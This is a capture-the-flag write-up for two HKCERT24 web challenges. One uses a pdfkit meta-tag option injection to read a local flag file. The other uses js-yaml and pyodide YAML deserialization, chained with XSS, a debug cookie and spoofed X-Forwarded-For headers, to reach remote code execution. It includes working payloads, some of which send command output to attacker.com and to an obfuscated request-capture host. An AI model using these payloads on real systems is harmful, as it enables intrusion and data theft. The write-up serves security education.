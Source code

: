 # HKCERT24

## Webpage to PDF (2)
#lfr #pdf
### Overview
Simple page that takes and url and converts the page to pdf using `pdfkit==1.0`
### Code review
The app takes the filename from the cookies:
```python
session_id = request.cookies.get('session_id')
pdf_file = f"{session_id}.pdf"
```
Then makes a request to the given url and passes the reponse as string to the pdf converter:
```python
pdfkit.from_string(response.text, pdf_file)
```

Pdfkit uses `wkhtmltopdf`, let's have a look on how it builds the cli command:
```python
def _command(self, path=None):
	yield self.wkhtmltopdf

	if not self.verbose:
			self.options.update({'--quiet': ''})

	for argpart in self._genargs(self.options):
			if argpart:
					yield argpart
				
	# If the source is a string then we will pipe it into wkhtmltopdf
	# If the source is file-like then we will read from it and pipe it in
	if self.source.isString() or self.source.isFileObj():
			yield '-'
	else:
			if isinstance(self.source.source, str):
					yield self.source.to_s()
			else:
					for s in self.source.source:
							yield s

	# If output_path evaluates to False append '-' to end of args
	# and wkhtmltopdf will pass generated PDF to stdout
	if path:
			yield path
	else:
			yield '-'

def command(self, path=None):
	return list(self._command(path))
```
this function returns a value like:
`['/usr/bin/wkhtmltopdf', '--quiet', '-', 'path']`

A command injection could happen because of `_genargs`, how options are taken:
```python
self.options.update(self._find_options_in_meta(url_or_file))

def _find_options_in_meta(self, content):
	"""Reads 'content' and extracts options encoded in HTML meta tags

	:param content: str or file-like object - contains HTML to parse

	returns:
		dict: {config option: value}
	"""
	if (isinstance(content, io.IOBase)
					or content.__class__.__name__ == 'StreamReaderWriter'):
			content = content.read()

	found = {}

	for x in re.findall('<meta [^>]*>', content):
			if re.search('name=["\']%s' % self.configuration.meta_tag_prefix, x):
					name = re.findall('name=["\']%s([^"\']*)' %
														self.configuration.meta_tag_prefix, x)[0]
					found[name] = re.findall('content=["\']([^"\']*)', x)[0]

	return found
```
This function searches for meta tags starting with `pdfkit-`, and adds the option name to the cmd args.

Payload:
```
<meta name="pdfkit-enable-local-file-access" content="">
<svg onload="x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open('GET','file:///flag.txt');x.send();"></svg>
```

`hkcert24{c1oud-is-rand0m-st4ngers-c0mputer-and-libr4ries-are-r4ndom-stang3rs-c0de}`

## JSPyaml
#yaml #xss 
### Overview
Simple yaml parser. The page app has a report functionality with an headless bot.
### Code review
The yml is loaded using an usafe method -> RCE:
https://nealpoole.com/blog/2013/06/code-execution-via-yaml-in-js-yaml-nodejs-module/
```js
app.post('/debug', (req, res) => {
    if(ip.isLoopback(req.ip) && req.cookies.debug === 'on'){
        const yaml = require('js-yaml');
        let schema = yaml.DEFAULT_SCHEMA.extend(require('js-yaml-js-types').all);
        try{
        	let input = req.body.yaml;
        	console.log(`Input: ${input}`);
        	let output = yaml.load(input, {schema});
        	console.log(`Output: ${output}`);
        	res.json(output);
        }catch(e){
        	res.status(400).send('Error');
        }
    }else{
        res.status(401).send('Unauthorized');
    }
});
```
Problem: the debug endpoint can be accessed only having the `debug` cookie.

The frontend uses a `pyodide` with a python yaml deserializer, that uses the dangerous `load` function:
``yaml.load("""$y""", yaml.Loader)``
From the documentation it's possible to see that pyodide can access the JS context -> XSS
### Exploit
1. Backend Yaml deserialization to RCE:
```
"toString": !!js/function "function (){let x = global.process.mainModule.require('child_process').execSync('cat proof.sh').toString(); console.log(x); fetch('http://attacker.com', {method: 'POST', body: x});}"
```
2. Frontend Yaml deserialization to XSS;
```
!!python/object/apply:js.document.write ['<script>document.cookies = `debug=on`</script>']
```
### Full exploit
trigger frontend deserialization with window references and hashchange xss -> set cookie+spoof ip -> rce
```
<script>
	window.open("http://127.0.0.1:3000", "sas");
	let i = 0;
	setInterval(() => {window.open("http://127.0.0.1:3000/#!!python/object/apply:js.document.write ['\x3cscript>console.log("+i+"); document.cookie=`debug=on`; const data = `%79%61%6d%6c%3d%25%32%32%74%6f%53%74%72%69%6e%67%25%32%32%25%33%61%25%32%30%21%21%6a%73%25%32%66%66%75%6e%63%74%69%6f%6e%25%32%30%25%32%32%66%75%6e%63%74%69%6f%6e%25%32%30%28%29%25%37%62%6c%65%74%25%32%30%78%25%32%30%25%33%64%25%32%30%67%6c%6f%62%61%6c%2e%70%72%6f%63%65%73%73%2e%6d%61%69%6e%4d%6f%64%75%6c%65%2e%72%65%71%75%69%72%65%28%25%32%37%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%25%32%37%29%2e%65%78%65%63%53%79%6e%63%28%25%32%37%63%61%74%25%32%30%25%32%66%70%72%6f%6f%66%2e%73%68%25%32%37%29%2e%74%6f%53%74%72%69%6e%67%28%29%25%33%62%25%32%30%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%78%29%25%33%62%25%32%30%66%65%74%63%68%28%25%32%37%68%74%74%70%25%33%61%25%32%66%25%32%66%6b%71%63%68%63%35%6c%31%2e%72%65%71%75%65%73%74%72%65%70%6f%2e%63%6f%6d%25%32%37%25%32%63%25%32%30%25%37%62%6d%65%74%68%6f%64%25%33%61%25%32%30%25%32%37%50%4f%53%54%25%32%37%25%32%63%25%32%30%62%6f%64%79%25%33%61%25%32%30%78%25%37%64%29%25%33%62%25%37%64%25%32%32`; let xhr = new XMLHttpRequest(); xhr.withCredentials = true; xhr.open(`POST`, `http://127.0.0.1:3000/debug`); xhr.setRequestHeader(`Content-Type`, `application/x-www-form-urlencoded`); xhr.setRequestHeader(`X-Forwarded-For`, `127.0.0.1`); xhr.withCredentials = true; xhr.onload = function() { console.log(xhr.response); }; xhr.send(data);\x3c/script>']", "sas");i++;}, 200);
</script>
```